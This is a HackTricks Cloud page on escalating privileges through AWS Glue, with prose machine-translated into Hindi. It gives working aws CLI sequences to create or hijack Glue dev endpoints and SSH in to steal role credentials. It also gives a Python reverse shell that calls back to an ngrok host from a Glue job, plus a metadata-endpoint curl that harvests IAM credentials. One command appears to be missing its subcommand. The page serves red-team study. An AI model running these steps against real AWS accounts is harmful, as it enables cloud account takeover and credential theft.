 # AWS - Glue Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

इन अनुमतियों वाले उपयोगकर्ता **एक नया AWS Glue विकास अंत बिंदु सेटअप कर सकते हैं**, **Glue द्वारा अनुमेय एक मौजूदा सेवा भूमिका को इस अंत बिंदु पर विशिष्ट अनुमतियों के साथ असाइन कर सकते हैं**।

सेटअप के बाद, **हमलावर अंत बिंदु के उदाहरण में SSH कर सकता है**, और असाइन की गई भूमिका के IAM क्रेडेंशियल चुरा सकता है:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
गोपनीयता के उद्देश्य के लिए, Glue वर्चुअल मशीन के अंदर IAM क्रेडेंशियल्स का उपयोग करने की सिफारिश की जाती है।

**संभावित प्रभाव:** निर्दिष्ट Glue सेवा भूमिका तक प्रिवेस्क।

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

इस अनुमति वाले उपयोगकर्ता **एक मौजूदा Glue विकास** अंत बिंदु की SSH कुंजी को **बदल सकते हैं, जिससे SSH पहुंच सक्षम होती है**। इससे हमलावर को अंत बिंदु की संलग्न भूमिका के विशेषाधिकारों के साथ आदेश निष्पादित करने की अनुमति मिलती है:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**संभावित प्रभाव:** उपयोग की गई गोंद सेवा भूमिका के लिए प्रिवेस्क।

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

उपयोगकर्ता जिनके पास **`iam:PassRole`** है, जो **`glue:CreateJob` या `glue:UpdateJob`** के साथ मिलकर, और **`glue:StartJobRun` या `glue:CreateTrigger`** में से किसी एक के साथ मिलकर **AWS Glue नौकरी** बना या अपडेट कर सकते हैं, किसी भी **गोंद सेवा खाते** को संलग्न कर सकते हैं, और नौकरी के निष्पादन को प्रारंभ कर सकते हैं। नौकरी की क्षमताओं में मनमाने Python कोड को चलाना शामिल है, जिसका उपयोग एक रिवर्स शेल स्थापित करने के लिए किया जा सकता है। इस रिवर्स शेल का उपयोग **IAM क्रेडेंशियल** को निकालने के लिए किया जा सकता है जो गोंद नौकरी से जुड़ी भूमिका के हैं, जिससे उस भूमिका के अनुमतियों के आधार पर संभावित अनधिकृत पहुंच या क्रियाएं हो सकती हैं:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**संभावित प्रभाव:** निर्दिष्ट ग्लू सेवा भूमिका के लिए प्रिवेस्क।

### `glue:UpdateJob`

केवल अपडेट अनुमति के साथ, एक हमलावर पहले से जुड़े भूमिका के IAM क्रेडेंशियल्स चुरा सकता है।

**संभावित प्रभाव:** जुड़े ग्लू सेवा भूमिका के लिए प्रिवेस्क।

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें, [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करके।**

</details>
{% endhint %}
